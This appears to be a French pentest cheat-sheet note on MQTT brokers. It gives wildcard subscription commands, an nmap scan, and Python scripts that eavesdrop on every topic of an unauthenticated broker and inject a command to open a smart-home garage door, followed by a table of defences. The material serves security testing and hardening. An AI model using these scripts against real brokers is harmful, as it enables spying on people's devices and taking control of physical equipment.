

# 📨 Protocole MQTT

> [!info] **En 1 phrase**
> **MQTT** est le protocole de messagerie **léger** des objets connectés : les devices
> publient/souscrivent à des **topics** via un **broker** — et quand le broker est
> **sans mot de passe**, tu peux lire **tous** les messages et **publier** à leur place.

---

## 🔧 Le protocole en bref



- **Pub/Sub** par **topics** (`smarthouse/garage/door`) avec niveaux de QoS (0, 1, 2).
- Ports par défaut : **1883** (MQTT) et **8883** (MQTT over TLS/SSL).
- Très utilisé en IoT (télémétrie, domotique, smart city, agriculture).

---

## 🎯 Discovery & exploration

### Clients MQTT

- mqtt-spy · [MQTT CLI](https://asciinema.org/a/DlPmJwXbhuAURHseamGdMy4z3/embed?speed=2\&autoplay=true) · [MQTT Lens](https://chrome.google.com/webstore/detail/mqttlens/hemojaaeigabkbcookmlgmdigohjobjm) · MQTT.fx · mosquitto_tools

```bash
mosquitto_sub -h sensors.domain.com -t '#'
mosquitto_sub -h sensors.domain.com -t '+'
mosquitto_sub -h sensors.domain.com -t "/sensor/"
```

> `#` = tous les topics, `+` = un niveau de hiérarchie (wildcards de subscription).

### Scan Nmap

```bash
nmap -p 1883 -vvv --script=mqtt-subscribe -d sensors.domain.com
```

---

## 🕵️ Explorer le broker (Python)

Se connecter et **souscrire à tous les topics** avec le wildcard `#` :

```python
import paho.mqtt.client as mqtt

def on_connect(client, userdata, flags, rc):
    print("[+] Connection successful")
    client.subscribe('#', qos=1)
    client.subscribe('$SYS/#')

def on_message(client, userdata, msg):
    print('[+] Topic: %s - Message: %s' % (msg.topic, msg.payload))

client = mqtt.Client(client_id="MqttClient")
client.on_connect = on_connect
client.on_message = on_message
client.connect('SERVER IP HERE', 1883, 60)
client.loop_forever()
```

> `$SYS/#` expose le **statut du broker** (Mosquitto) : version, uptime, nombre de messages… précieux pour cartographier l'infra.

---

## ✍️ Publier des messages

```python
import paho.mqtt.client as mqtt

def on_connect(client, userdata, flags, rc):
    print("[+] Connection success")

client = mqtt.Client(client_id="MqttClient")
client.on_connect = on_connect
client.connect('IP SERVER HERE', 1883, 60)
client.publish('smarthouse/garage/door', "{'open':'true'}")
```

> Publier sur un topic commande (`smarthouse/garage/door`) permet d'**agir sur les devices** : ouvrir une porte, allumer/éteindre, injecter des ordres.

---

## 💥 Fuzzing

- [F-Secure/mqtt_fuzz](https://github.com/F-Secure/mqtt_fuzz) — fuzzer un broker MQTT (malformed packets, CONNECT/CONNACK abuse…).

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Authentification obligatoire** | La plupart des brokers IoT tournent **sans mot de passe** |
| **TLS sur 8883** | Chiffrer les échanges (le trafic est sinon lisible en clair) |
| **Restreindre les topics** | Ne pas autoriser `#` en lecture pour tout client ; vérifier les ACL de publication |
| **Ne pas exposer 1883 sur Internet** | Pare-feu + broker sur réseau privé |
| **Surveillance** | Détecter des connexions anonymes répétées ou des subs `#` inhabituelles |

## ⚠️ Tips & Pièges

- Un broker **sans auth** = lecture **et écriture** : tu peux à la fois **espionner** et **injecter**.
- Le wildcard `#` permet aussi de souscrire aux topics **non publics** si les ACL sont mal configurées.
- Les topics `$SYS/#` révèlent la config du broker mais sont **souvent filtrés** pour les clients non privilégiés.
- **QoS 0** = pas d'ack : tes messages injectés peuvent être perdus silencieusement.
- Mosquitto est le broker le plus courant : `mosquitto_sub`/`mosquitto_pub` suffisent pour 90% des tests.

---

> [!info] 📚 **Sources**
> - [HardwareAllTheThings — MQTT](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/protocols/mqtt.md)

➡️ Liens : [[13 - Hardware & IoT|⚙️ Hardware & IoT]] · [[Injection de commandes|💻 Injection de commandes]] · [[SSRF|🌐 SSRF]] · [[Attaques WiFi (WPA2 et PMKID)|📡 WiFi]]
